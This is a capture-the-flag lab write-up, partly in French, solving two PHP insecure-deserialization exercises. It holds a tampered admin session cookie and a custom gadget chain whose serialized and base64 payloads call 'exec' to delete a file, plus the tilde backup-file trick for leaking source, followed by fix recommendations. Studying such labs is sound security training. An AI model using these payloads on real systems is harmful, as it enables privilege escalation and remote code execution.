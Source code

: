 ```
Lab: Modifying serialized objects

APPRENTICE

This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 
```

O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
> Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30

/admin/delete?username=carlos

---

```
Lab: Developing a custom gadget chain for PHP deserialization

EXPERT

This lab uses a serialization-based session mechanism. By deploying a custom gadget chain, you can exploit its insecure deserialization to achieve remote code execution. To solve the lab, delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 
```
# observation :

On observe la ligne commentée suivante : 
```html
<!-- TODO: Refactor once /cgi-bin/libs/CustomTemplate.php is updated -->
```
GET /cgi-bin/libs/CustomTemplate.php~

- Le scénario est le suivant :
```
    - Certains éditeurs de texte stockent des copies de sauvegarde ou de "travail" du fichier que vous êtes en train de modifier sous la forme du même nom de fichier, mais avec un tilde (~) à la fin. Le tilde signifie souvent "ceci est généré par le système, ne vous en préoccupez pas".
    - Ces fichiers peuvent parfois rester après la fin de l'édition, soit parce que l'éditeur n'est pas configuré pour les supprimer, soit parce que l'éditeur est tué sans être fermé correctement.
    En ajoutant un tilde à la fin d'une URL, vous pouvez avoir la chance de tomber sur l'une de ces copies de sauvegarde qu'un webmestre a accidentellement laissée (ou téléchargée) sur son site de production.
    - Le serveur web ne l'interprétera pas à l'aide d'un interpréteur de script parce que l'extension est différente (par exemple, il ne s'agit pas de ".php") ; il revient donc à son comportement par défaut pour les extensions de fichiers inconnues, à savoir le téléchargement d'un fichier.
    - Vous pouvez lire le code source de leur script.
```
- On obtient alors le code source du fichier :

```php
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

?>
```

- nom d'utilisateur : `Carlos` utile ?

Voici ce que l'on doit faire :

```php
CustomTemplate->default_desc_type = "rm /home/carlos/morale.txt";
CustomTemplate->desc = DefaultMap;
DefaultMap->callback = "exec"
````

Ce qui donne la chaine suivante :

```
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}
````

Base64 :
```
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTc6ImRlZmF1bHRfZGVzY190eXBlIjtzOjI2OiJybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7czo0OiJkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjg6ImNhbGxiYWNrIjtzOjQ6ImV4ZWMiO319
````

# Recommandations :

- Supprimer la référence à la classe DefaultMap, qui est utilisée pour exécuter du code malveillant.

- Utiliser des accesseurs (getHtmlDesc et getTextDesc) pour accéder aux propriétés de la classe Description, afin d'empêcher l'accès direct aux propriétés et d'ajouter une couche de validation.

- Supprimer la sérialisation de la propriété desc dans la méthode __sleep de la classe CustomTemplate, pour éviter que du code malveillant ne soit sérialisé et exécuté lors de la désérialisation.

- Dans la méthode __wakeup de la classe CustomTemplate, appeler la méthode build_product qui va reconstruire l'objet $product en utilisant la propriété $default_desc_type.

---
